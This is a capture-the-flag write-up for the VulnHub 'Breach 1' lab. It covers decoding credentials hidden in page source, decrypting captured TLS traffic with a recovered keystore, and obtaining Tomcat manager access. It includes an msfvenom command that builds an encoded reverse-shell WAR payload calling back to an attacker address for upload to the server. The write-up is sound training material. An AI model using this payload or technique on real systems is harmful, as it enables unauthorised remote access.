

# Breach 1 - VulnHub

All ports seem to be filtered. However found website on port 80. 

Possible hostname breach.local ?
Webmaster: Samir Nagheenanajar
Penetrode Cyber Consulting, LLP

>index.html -> N
>breach.html -> N
>initech.html

Base64 string included in page's source code:

```
disastrpc breach1 λ echo 'Y0dkcFltSnZibk02WkdGdGJtbDBabVZsYkNSbmIyOWtkRzlpWldGbllXNW5KSFJo' | base64 --decode | base64 --decode
pgibbons:damnitfeel$goodtobeagang$ta
```

There is a page on the "*Employee Portal*" link leading to an install of impress CMS




Robots:
```
Disallow: /cgi-bin/
Disallow: /tmp/
Disallow: /cache/
Disallow: /class/
Disallow: /editors/
Disallow: /images/
Disallow: /include/
Disallow: /install/
Disallow: /kernel/
Disallow: /language/
Disallow: /libraries/
Disallow: /plugins/
Disallow: /templates_c/
Disallow: /themes/
Disallow: /uploads/
```

Logged in to CMS using credentials and found an inbox message detailing the location of a keystore file at the webserver root.

Another message reveals a .pcap file we can download that details an attack.
We can decrypt the SSL traffic using the keystore file. 

The message says the password for the keystore file is set to '*tomcat*'.

>$ keytool -importkeystore -srckeystore ~/Downloads/keystore -destkeystore keystore.p12 -deststoretype PKCS12

Enter '*tomcat*' as password when prompted.

The p12 file can be added to Wireshark by going to *Preferences->Protocols->TLS->RSA Keys*

>/_M@nag3Me/html

Found creds inside SSL packet:

tomcat:s3cret
tomcat:Tt\5D8F(#!*u=G)4m7zB

We are able to connect to webserver on port 8443 by using Burp's built in browser and ignoring insecure SSL requests. This allows us to upload a .war file to the server which we can use to gain reverse shell access.

>λ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.110.42 LPORT=4242 -e x86/shikata_ga_nai -f war > rev.war

For war reverse shells, we can extract them with the jar command
>jar -xvf rev.war

Which shows us the path to the *.jsp* file we can access to launch our reverse shell.